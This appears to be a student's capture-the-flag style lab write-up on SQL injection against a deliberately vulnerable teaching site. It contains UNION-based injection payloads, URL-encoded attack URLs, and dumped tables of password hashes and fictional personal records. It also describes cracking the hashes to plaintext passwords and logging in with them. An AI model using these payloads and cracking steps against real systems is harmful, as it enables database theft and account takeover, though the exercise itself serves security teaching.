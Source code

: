Select, three distinct queries:
```mysql
SELECT JSON_ARRAYAGG(CONCAT_WS(',',
COALESCE(id,''),COALESCE(usr,''),COALESCE(pwd,'')
)),NULL,NULL,NULL FROM accounts

SELECT JSON_ARRAYAGG(CONCAT_WS(',',
COALESCE(id,''),COALESCE(nick,''),COALESCE(age,''),COALESCE(hair,''),COALESCE(name,''),COALESCE(street,''),COALESCE(city,''),COALESCE(zip,''),COALESCE(citizen_id,'')
)),NULL,NULL,NULL FROM performers

SELECT JSON_ARRAYAGG(CONCAT_WS(',',
COALESCE(id,''),COALESCE(title,''),COALESCE(text,''),COALESCE(date_inserted,''),COALESCE(visible,'')
)),NULL,NULL,NULL FROM stories
```

Payloads:
```
' UNION
SELECT JSON_ARRAYAGG(CONCAT_WS(',',
COALESCE(id,''),COALESCE(usr,''),COALESCE(pwd,'')
)),NULL,NULL,NULL FROM accounts
WHERE '1'='1

' UNION
SELECT JSON_ARRAYAGG(CONCAT_WS(',',
COALESCE(id,''),COALESCE(nick,''),COALESCE(age,''),COALESCE(hair,''),COALESCE(name,''),COALESCE(street,''),COALESCE(city,''),COALESCE(zip,''),COALESCE(citizen_id,'')
)),NULL,NULL,NULL FROM performers
WHERE '1'='1

' UNION
SELECT JSON_ARRAYAGG(CONCAT_WS(',',
COALESCE(id,''),COALESCE(title,''),COALESCE(text,''),COALESCE(date_inserted,''),COALESCE(visible,'')
)),NULL,NULL,NULL FROM stories
WHERE '1'='1
```

Encoded:
```
%27%20UNION%0ASELECT%20JSON_ARRAYAGG%28CONCAT_WS%28%27%2C%27%2C%0ACOALESCE%28id%2C%27%27%29%2CCOALESCE%28usr%2C%27%27%29%2CCOALESCE%28pwd%2C%27%27%29%0A%29%29%2CNULL%2CNULL%2CNULL%20FROM%20accounts%0AWHERE%20%271%27%3D%271
%27%20UNION%0ASELECT%20JSON_ARRAYAGG%28CONCAT_WS%28%27%2C%27%2C%0ACOALESCE%28id%2C%27%27%29%2CCOALESCE%28nick%2C%27%27%29%2CCOALESCE%28age%2C%27%27%29%2CCOALESCE%28hair%2C%27%27%29%2CCOALESCE%28name%2C%27%27%29%2CCOALESCE%28street%2C%27%27%29%2CCOALESCE%28city%2C%27%27%29%2CCOALESCE%28zip%2C%27%27%29%2CCOALESCE%28citizen_id%2C%27%27%29%0A%29%29%2CNULL%2CNULL%2CNULL%20FROM%20performers%0AWHERE%20%271%27%3D%271
%27%20UNION%0ASELECT%20JSON_ARRAYAGG%28CONCAT_WS%28%27%2C%27%2C%0ACOALESCE%28id%2C%27%27%29%2CCOALESCE%28title%2C%27%27%29%2CCOALESCE%28text%2C%27%27%29%2CCOALESCE%28date_inserted%2C%27%27%29%2CCOALESCE%28visible%2C%27%27%29%0A%29%29%2CNULL%2CNULL%2CNULL%20FROM%20stories%0AWHERE%20%271%27%3D%271
```

Whole URLs:
```
http://boura.fit.cvut.cz/nightclub/bookgirl.php?girl=%27%20UNION%0ASELECT%20JSON_ARRAYAGG%28CONCAT_WS%28%27%2C%27%2C%0ACOALESCE%28id%2C%27%27%29%2CCOALESCE%28usr%2C%27%27%29%2CCOALESCE%28pwd%2C%27%27%29%0A%29%29%2CNULL%2CNULL%2CNULL%20FROM%20accounts%0AWHERE%20%271%27%3D%271
http://boura.fit.cvut.cz/nightclub/bookgirl.php?girl=%27%20UNION%0ASELECT%20JSON_ARRAYAGG%28CONCAT_WS%28%27%2C%27%2C%0ACOALESCE%28id%2C%27%27%29%2CCOALESCE%28nick%2C%27%27%29%2CCOALESCE%28age%2C%27%27%29%2CCOALESCE%28hair%2C%27%27%29%2CCOALESCE%28name%2C%27%27%29%2CCOALESCE%28street%2C%27%27%29%2CCOALESCE%28city%2C%27%27%29%2CCOALESCE%28zip%2C%27%27%29%2CCOALESCE%28citizen_id%2C%27%27%29%0A%29%29%2CNULL%2CNULL%2CNULL%20FROM%20performers%0AWHERE%20%271%27%3D%271
http://boura.fit.cvut.cz/nightclub/bookgirl.php?girl=%27%20UNION%0ASELECT%20JSON_ARRAYAGG%28CONCAT_WS%28%27%2C%27%2C%0ACOALESCE%28id%2C%27%27%29%2CCOALESCE%28title%2C%27%27%29%2CCOALESCE%28text%2C%27%27%29%2CCOALESCE%28date_inserted%2C%27%27%29%2CCOALESCE%28visible%2C%27%27%29%0A%29%29%2CNULL%2CNULL%2CNULL%20FROM%20stories%0AWHERE%20%271%27%3D%271
```

Answer accounts:
```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
	<title>Night club template</title>
	<link rel="stylesheet" href="style.css" type="text/css" charset="utf-8" />
</head>

<body>
<div id="container">
	<div id="menu">

		<ul>
			<li id="m01"><a href="index.php">Home</a></li>
			<li id="m02"><a href="index-2.php">Photos</a></li>
			<li id="m03"><a href="index-3.php">Parties</a></li>
			<li id="m04"><a href="index-4.php">Booking</a></li>
			<li id="m05"><a href="index-5.php">Login</a></li>
		</ul>

	</div>
	<div id="header">
		<div id="dj">
		<div id="welcome">
			<h2>Booking</h2>
<b>Girl #["1,root,874572e7a5ae6a49466a6ac578b98adba78c6aa6", "2,www,214c418002e37328fa4269e3a4c952adc6e79ea4"]  is currently with a customer. Please try again later!</b>		</div>
		</div>
		<div class="clear"></div>
	</div>
	<div id="middle"></div>
	<div id="middle2"></div>
	<div id="footer">
		<p>Copyright � Website name all rights reserved. |  <a href="http://www.freewebsitetemplates.com/termsofuse">Terms of use</a></p>
	</div>
</div>
</body>
</html>
```

Answer performers:
```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
	<title>Night club template</title>
	<link rel="stylesheet" href="style.css" type="text/css" charset="utf-8" />
</head>

<body>
<div id="container">
	<div id="menu">

		<ul>
			<li id="m01"><a href="index.php">Home</a></li>
			<li id="m02"><a href="index-2.php">Photos</a></li>
			<li id="m03"><a href="index-3.php">Parties</a></li>
			<li id="m04"><a href="index-4.php">Booking</a></li>
			<li id="m05"><a href="index-5.php">Login</a></li>
		</ul>

	</div>
	<div id="header">
		<div id="dj">
		<div id="welcome">
			<h2>Booking</h2>
<b>Girl #["1,Rebecca,18,Brunette,Rebecca Chambers,123 15th Street S,Raccoon City,10000,887766/5544", "2,Jill,25,Blonde,Jill Valentine,1 Victory Square,Raccoon City,10000,133700/0000", "3,Claire,40,Blonde,Albert Wesker,Classified,Classified,00000,Umbrella1"]  is currently with a customer. Please try again later!</b>		</div>
		</div>
		<div class="clear"></div>
	</div>
	<div id="middle"></div>
	<div id="middle2"></div>
	<div id="footer">
		<p>Copyright � Website name all rights reserved. |  <a href="http://www.freewebsitetemplates.com/termsofuse">Terms of use</a></p>
	</div>
</div>
</body>
</html>
```

Answer stories:
```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
	<title>Night club template</title>
	<link rel="stylesheet" href="style.css" type="text/css" charset="utf-8" />
</head>

<body>
<div id="container">
	<div id="menu">

		<ul>
			<li id="m01"><a href="index.php">Home</a></li>
			<li id="m02"><a href="index-2.php">Photos</a></li>
			<li id="m03"><a href="index-3.php">Parties</a></li>
			<li id="m04"><a href="index-4.php">Booking</a></li>
			<li id="m05"><a href="index-5.php">Login</a></li>
		</ul>

	</div>
	<div id="header">
		<div id="dj">
		<div id="welcome">
			<h2>Booking</h2>
<b>Girl #["1,MI-BPR Site Launched,The MI-BPR site was launched on Monday, 8th November 2011. Enjoy the stunning photos, parties and girls offered by the site!,2011-11-07 00:28:28,1", "2,20% Discount to our VIP Members,We have a special Christmas offer for our valued customers. Rent a girl in December for the entire night and get another one for FREE!</p><p>See more details about this exclusive deal <a href=\"xmasdeal.php\">here</a>.,2016-09-18 08:36:32,1", "3,You have earned 0.5 points,By changing the data you got access to a record which is marked invisible. Inform your teacher.,2015-11-17 18:31:05,0", "12345,Did you actually check the gathered data?,If you did, notify your teacher that you deserve 0.5 extra points.,2016-09-18 07:31:29,0"]  is currently with a customer. Please try again later!</b>		</div>
		</div>
		<div class="clear"></div>
	</div>
	<div id="middle"></div>
	<div id="middle2"></div>
	<div id="footer">
		<p>Copyright � Website name all rights reserved. |  <a href="http://www.freewebsitetemplates.com/termsofuse">Terms of use</a></p>
	</div>
</div>
</body>
</html>
```

Accounts data:
- `login`: `password sha1`
- `root`: `874572e7a5ae6a49466a6ac578b98adba78c6aa6`
- `www`: `214c418002e37328fa4269e3a4c952adc6e79ea4`

We will use reverse hashing online decrypters that have precomputed hashes of
many hashing algorithms like [this](https://hashes.com/en/decrypt/hash).

We get passwords:
- `root`: `Tr0ub4dor&3`
- `www`: `nemesis`

Both passwords work, I tried.

Performers data:
- `nick`,`age`,`hair`,`name`,`street`,`city`,`zip`,`citizen_id`
- `Rebecca`,`18`,`Brunette`,`Rebecca Chambers`,`123 15th Street S`,`Raccoon City`,`10000`,`887766/5544`
- `Jill`,`25`,`Blonde`,`Jill Valentine`,`1 Victory Square`,`Raccoon City`,`10000`,`133700/0000`
- `Claire`,`40`,`Blonde`,`Albert Wesker`,`Classified`,`Classified`,`00000`,`Umbrella1`

Third performer looks weird... Albert Wesker?, Classified?, citizen_id=Umbrella1???


Stories data:
- `id`,`title`,`text`,`date_inserted`,`visible`
- `1`,`MI-BPR Site Launched`, `The MI-BPR site was launched on Monday, 8th November 2011. Enjoy the stunning photos, parties and girls offered by the site!`,`2011-11-07 00:28:28`,`1`
- `2`,`20% Discount to our VIP Members`, `We have a special Christmas offer for our valued customers. Rent a girl in December for the entire night and get another one for FREE!</p><p>See more details about this exclusive deal <a href=\"xmasdeal.php\">here</a>.`,`2016-09-18 08:36:32`,`1`
- `3`,`You have earned 0.5 points`, `By changing the data you got access to a record which is marked invisible. Inform your teacher.`, `2015-11-17 18:31:05`, `0`
- `12345`,`Did you actually check the gathered data?`,`If you did, notify your teacher that you deserve 0.5 extra points.`,`2016-09-18 07:31:29`,`0`

We can see two more invisible stories, one that can be found easily even without SQL injection with id = 3,
and one that would be hard to find without access to DB with id 12345.
I am notifying teacher I found both Easter eggs.

